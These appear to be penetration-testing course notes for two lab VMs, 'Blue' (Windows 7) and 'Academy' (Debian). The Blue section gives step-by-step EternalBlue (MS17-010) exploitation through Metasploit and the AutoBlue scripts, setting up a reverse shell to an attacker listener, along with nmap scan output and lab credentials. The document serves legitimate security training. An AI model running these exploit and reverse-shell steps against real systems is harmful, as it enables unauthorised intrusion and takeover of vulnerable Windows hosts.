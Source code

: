 # Capstone Labs

Import all the [VMs](https://drive.google.com/drive/folders/1xJy4ozXaahXvjbgTeJVWyY-eUGIKgCj1) into [VMWare Workstation Pro (free)](https://support.broadcom.com/group/ecx/productdownloads?subfamily=VMware%20Workstation%20Pro) or Virtualbox and change Network adapter to `NAT`.

## Blue

> O.S. - Windows 7
>
> Credentials:
>
> - `user`:`Password123!`
> - `administrator`:`Password456!`

```bash
mkdir -p ~/tcm/peh/blue/
cd ~/tcm/peh/blue/
```

```bash
sudo nmap -p- -A -T4 192.168.31.132 -oA blue
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:33:BE:EE (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1

OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-13T20:57:32
|_  start_date: 2024-07-13T20:49:44
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:33:be:ee (VMware)
|_clock-skew: mean: 1h19m51s, deviation: 2h18m33s, median: -8s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-13T16:57:32-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.68 ms 192.168.31.132
```

### Exploit MS17-010

> [CVE-2017-0144 - MS17-010](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
>
> [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit](https://www.exploit-db.com/exploits/42031)
>
> [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

**Metasploit**

```bash
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.31.132
run
```

```bash
[+] 192.168.31.132:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 192.168.31.132
check
# Same as auxiliary/scanner/smb/smb_ms17_010 module
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.131 # Listening HOST/Kali
run
```

![](.gitbook/assets/2024-07-13_23-49-55_610.png)

**Manual exploit**

```bash
cd ~/tcm/peh/blue/
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd ~/tcm/peh/blue/AutoBlue-MS17-010
pip install -r requirements.txt
cd shellcode

# Checker
python2 eternal_checker.py 192.168.31.132
```

![](.gitbook/assets/2024-07-13_23-40-18_609.png)

> ❗ The machine can crash with this attack.

```bash
cd ~/tcm/peh/blue/AutoBlue-MS17-010/shellcode
./shell_prep.sh
# kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
# y
# LHOST for reverse connection:
# 192.168.31.131
# LPORT you want x64 to listen on:
# 8888
# LPORT you want x86 to listen on:
# 2222
# Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
# 1
# Type 0 to generate a staged payload or 1 to generate a stageless payload
# 0

cd ..
./listener_prep.sh
# Starts a listener
```

```bash
# Open another Terminal
cd ~/tcm/peh/blue/AutoBlue-MS17-010/
python2 eternalblue_exploit7.py 192.168.31.132 shellcode/sc_all.bin
```

![Blue VM BSOD](.gitbook/assets/2024-07-13_23-52-14_611.png)

---

## Academy

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
mkdir -p ~/tcm/peh/academy
cd ~/tcm/peh/academy/
```

```bash
sudo nmap -p- -A -T4 192.168.31.128 -oA academy
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:F2:81:D6 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.74 ms 192.168.31.128
```

- Consider first attacks to ports `21`, `80`.
  - Brute-forcing port `22` (SSH) can be used to check if network detection is applied at client side, and for testing some default credentials.

### Port 80

Visit [192.168.31.128](192.168.31.128)

- Apache default webpage
